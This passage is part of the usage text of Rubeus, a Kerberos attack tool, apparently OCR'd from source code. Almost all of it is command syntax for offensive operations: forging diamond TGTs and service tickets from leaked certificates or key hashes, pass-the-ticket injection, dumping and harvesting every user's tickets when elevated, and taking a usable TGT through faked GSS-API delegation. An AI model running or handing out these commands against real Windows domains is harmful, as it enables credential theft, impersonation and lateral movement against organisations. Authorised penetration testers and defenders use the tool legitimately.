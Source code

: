		Forge a diamond TGT by requesting a TGT using a PCKS12 certificate:
			Rubeus.exe diamond /user:USER /certificate:C:\temp\leaked.pfx </password:STOREPASSWORD> [/createnetonly:C:\Windows\System32\cmd.exe] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/krbkey:HASH] [/ticketuser:USERNAME] [/ticketuserid:USER_ID] [/groups:GROUP_IDS] [/sids:EXTRA_SIDS]
    
		Forge a diamond TGT by requesting a TGT using tgtdeleg:
			Rubeus.exe diamond /tgtdeleg [/createnetonly:C:\Windows\System32\cmd.exe] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/krbkey:HASH] [/ticketuser:USERNAME] [/ticketuserid:USER_ID] [/groups:GROUP_IDS] [/sids:EXTRA_SIDS]

        Forge a diamond ticket using LDAP to gather the relevent information:
            Rubeus.exe diamond /user:USER /password:PASSWORD </krbkey:HASH> /ldap /ldapuser:USER /ldappassword:PASSWORD [/ticketuser:USERNAME] [/ticketuserid:USER_ID] [/dc:DOMAIN_CONTROLLER] [/domain:DOMAIN] [/outfile:FILENAME] [/ptt] [/nowrap] [/opsec]
 
        Forge a diamond service ticket:
            Rubeus/exe diamond </ticket:BASE64 | /ticket:FILE.KIRBI> /service:SPN /servicekey:HASH [/ldap] [/ldapuser:USER] [/ldappassword:PASSWORD] [/ticketuser:USERNAME] [/ticketuserid:USER_ID] [/dc:DOMAIN_CONTROLLER] [/domain:DOMAIN] [/outfile:FILENAME] [/ptt] [/nowrap] [/opsec]


     Ticket management:

        Submit a TGT, optionally targeting a specific LUID (if elevated):
            Rubeus.exe ptt </ticket:BASE64 | /ticket:FILE.KIRBI> [/luid:LOGINID]

        Purge tickets from the current logon session, optionally targeting a specific LUID (if elevated):
            Rubeus.exe purge [/luid:LOGINID]

        Parse and describe a ticket (service ticket or TGT):
            Rubeus.exe describe </ticket:BASE64 | /ticket:FILE.KIRBI> [/servicekey:HASH] [/krbkey:HASH] [/asrepkey:HASH] [/serviceuser:USERNAME] [/servicedomain:DOMAIN] [/desplaintext:FIRSTBLOCKTEXT]


     Ticket extraction and harvesting:

        Triage all current tickets (if elevated, list for all users), optionally targeting a specific LUID, username, or service:
            Rubeus.exe triage [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

        List all current tickets in detail (if elevated, list for all users), optionally targeting a specific LUID:
            Rubeus.exe klist [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]

        Dump all current ticket data (if elevated, dump for all users), optionally targeting a specific service/LUID:
            Rubeus.exe dump [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM] [/nowrap]

        Retrieve a usable TGT .kirbi for the current user (w/ session key) without elevation by abusing the Kerberos GSS-API, faking delegation:
            Rubeus.exe tgtdeleg [/target:SPN]

        Monitor every /interval SECONDS (default 60) for new TGTs:
            Rubeus.exe monitor [/interval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME] [/runfor:SECONDS]

        Monitor every /monitorinterval SECONDS (default 60) for new TGTs, auto-renew TGTs, and display the working cache every /displayinterval SECONDS (default 1200):
            Rubeus.exe harvest [/monitorinterval:SECONDS] [/displayinterval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME] [/runfor:SECONDS]
